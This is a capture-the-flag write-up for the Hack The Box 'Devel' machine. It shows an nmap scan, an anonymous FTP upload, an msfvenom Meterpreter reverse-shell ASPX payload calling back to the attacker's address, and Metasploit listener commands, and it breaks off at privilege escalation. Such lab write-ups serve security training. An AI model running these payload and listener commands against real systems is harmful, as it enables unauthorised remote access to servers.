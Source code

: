 # Devel
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08fa0240-d04c-403e-8edd-e524f901862f)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.5 --min-rate 1000  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-08 07:35 PDT
Nmap scan report for 10.10.10.5
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.08 seconds
```

1. Based from the nmap results, the machine runs a web application and opens a anonymous ftp login.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/56e020b6-16b2-4033-9849-e486a2b6f17f)


2. Did a small research about the service version for http, found a CVE that could be our interest -> https://www.exploit-db.com/exploits/15803


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e88dcd00-0758-481f-98d1-98661800d40d)


3. Anyway, let's login to ftp first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bd844e68-ee68-4ff0-a8fd-af981fb44c59)


4. Traversing the directory found no files at all.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90f5c1ab-37e1-4bbe-8e45-be4c8db31907)


5. Thing to note, since we're in a ftp server, we **need to check** if we can upload a file from our local machine to this ftp server.
6. For example let's make our reverse shell payload using **msfvenom**.
7. We want to save the payload in asp or aspx format file. Why?? Because IIS execute that file.

> COMMAND 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.20 lport=1337 -f aspx > reverse_shell.aspx
```

### FLOW

```
1. Create reverse shell payload using msfvenom.
2. Set listener on the specfied port.
3. run put file.aspx on the ftp server (to download the file from our local machine).
4. Then trigger the reverse shell payload by accessing it --> http://ip/file.aspx.
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/715111d5-aa90-4e10-a0b3-f1bb3f093642)


8. It's stuck there, confused why.
9. Succeed got shell after used the msfconsole listener.


> How to setup

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1337
exploit
```


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/126da244-7e93-469e-b608-c196d4208828)


10. Seems like we need to do privesc even to get the user flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4fb1d32-d90a-4cf4-9227-6d5068d87d18)


11. Let's run a suggester.
12. Running ps, we know that we don't need to migrate. Because w3wp.exe is used to run webapp for IIS.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/14b507b2-7327-4695-9c1c-fd730e8b65ed)


> RESULT FOR SUGGESTER


